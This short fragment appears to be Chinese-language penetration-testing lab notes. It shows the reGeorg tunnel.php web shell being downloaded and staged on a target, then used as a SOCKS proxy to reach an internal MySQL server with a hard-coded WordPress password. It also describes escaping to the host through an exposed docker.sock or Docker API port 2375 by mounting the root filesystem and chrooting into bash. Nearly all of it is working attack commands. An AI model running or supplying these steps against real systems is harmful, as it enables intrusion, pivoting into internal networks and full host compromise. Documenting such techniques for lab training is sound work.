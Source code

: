 proxychains curl -o tunnel.php https://raw.githubusercontent.com/sensepost/reGeorg/master/tunnel.nosocket.php

curl -# -O http://192.168.253.138:8082/tunnel.php
cp /tmp/tunnel.php .
访问：http://192.168.253.182:8000/tunnel.php
回显：Georg says, 'All seems fine'  ---正常

python reGeorgSocksProxy.py -u http://192.168.253.182:8000/tunnel.php

proxychains mysql -u wordpress -pWordPressISBest -h 172.18.0.4





这个容器docker.sock允许与 docker 通信，意味着创建、添加、删除容器，因此有一个技巧可以通过上传docker和运行命令docker run -it -v /:/host/ <container_name> chroot /host/ bash二进制文件将主机系统挂载到 docker 容器上，而不是我们有 docker 端口，我们可以访问这些容器，这样我们就可以远程做这个！

如果开启了2375端口：
docker -H tcp://192.168.253.182:2375 run --rm -it -v /:/host wordpress chroot /host bash





























































